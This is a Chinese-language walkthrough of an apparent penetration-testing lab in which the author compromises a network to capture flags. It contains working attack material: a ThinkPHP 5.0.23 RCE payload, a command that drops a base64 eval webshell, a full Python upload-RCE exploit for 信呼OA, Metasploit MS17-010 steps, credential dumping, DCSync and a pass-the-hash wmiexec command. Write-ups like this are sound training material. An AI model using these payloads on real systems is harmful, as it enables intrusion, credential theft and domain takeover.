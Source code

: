 # 攻击流程

## 信息收集

![image-20231212095736357](images/1.png)

发现了thinkphp5.0.23的rce

![image-20231212100006894](images/2.png)

## GetShell

直接用payload打

![image-20231212100351356](images/3.png)

```
http://39.101.165.215/index.php?s=captcha&test=-1

 _method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1
```

写一个马

```
 _method=__construct&filter[]=exec&method=get&server[REQUEST_METHOD]=echo PD9waHAKZXZhbCgkX1BPU1RbMV0pOw==|base64 -d>1.php
```

![image-20231212100508714](images/4.png)

## SUID提权

连上蚁剑，目前用户是www-data，看看有没有什么方式可以提权的

![image-20231212100716140](images/5.png)

看到了mysql是不需要密码就可以root权限执行的

![image-20231212100752408](images/6.png)

```
sudo mysql -e '\! whoami'
sudo mysql -e '\! ls /root'
```

![image-20231212100856643](images/7.png)

看到了第一段的flag :`flag{60b53231-`

![image-20231212100941648](images/8.png)

接着来看内网其他机器

![image-20231212101135810](images/9.png)

看到了内网网段

## 内网信息收集和代理

上传fscan和stowoway

![image-20231212101830962](images/10.png)

fscan扫到了内网中存在另外两台机器172.22.1.21（存在ms17-010），以及172.22.1.18（信呼OA）

在VPS上收到了连接，开一个socks在7777

![image-20231212101736877](images/11.png)

## 攻击内网

### 信呼OA

配置proxifier后，直接访问，先打web

![image-20231212102435869](images/12.png)

信呼OA2.2.8，弱口令admin/admin123可以登录后台

![image-20231212102608565](images/13.png)

这个版本在后台可以上传文件RCE

```python
import requests

session = requests.session()
url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'
data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}
r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'
r = session.get(url3)
data2 = {
    "1": "system('whoami');"
}
print(url_pre + filepath)
r = session.post(url_pre + filepath, data=data2)
print(r.text)

```

![image-20231212103115770](images/14.png)

蚁剑连接一下这个，找到了flag2:	`2ce3-4813-87d4-`

![image-20231212103300911](images/15.png)

发现这是一台域内机器，域控服务器是172.22.1.2

![image-20231212103203316](images/16.png)

### MS17-010

MS17-010还是用msf打最稳定

```
proxychains4 msfconsole

也可以直接set proxies socks5:127.0.0.1:7777
```

因为目标机器不出网，payload用`bind_tcp`

![image-20231212105517238](images/17.png)

抓取用户hash

```
load kiwi
creds_all
```

![image-20231212105700552](images/18.png)

## 域内信息收集

上传`SharpHound.exe`来搜集一下域内信息

```
upload "/root/SharpHound.exe" "C:/SharpHound.exe"

shell
chcp 65001

cd C:/
SharpHound.exe -c all

download "C:/20231212112608_BloodHound.zip" "/root/"
```

然后放在bloodhound里面分析

这里不知道为什么直接导入zip会出错，但是解压后不导入第一个computer就可以

![image-20231212134800467](images/19.png)

可以看到能够打dcsync，直接抓到了Administrator的hash

![image-20231212114056424](images/20.png)

用wmiexec登录

```
python3 wmiexec.py xiaorang.lab/administrator@172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8
```

![image-20231212114409242](images/21.png)

拿下域控

![image-20231212114459456](images/22.png)

而且这里有krbtgt的hash，可以用来做一个黄金票据

拿到了flag3

![image-20231212114800834](images/23.png)



```
flag{60b53231-2ce3-4813-87d4-e8f88d0d43d6}
```



参考链接

https://github.com/H3rmesk1t/Security-Learning/blob/main/Penetration/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C%20%26%20Initial/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C%20%26%20Initial.md

https://www.cnblogs.com/thebeastofwar/p/17754145.html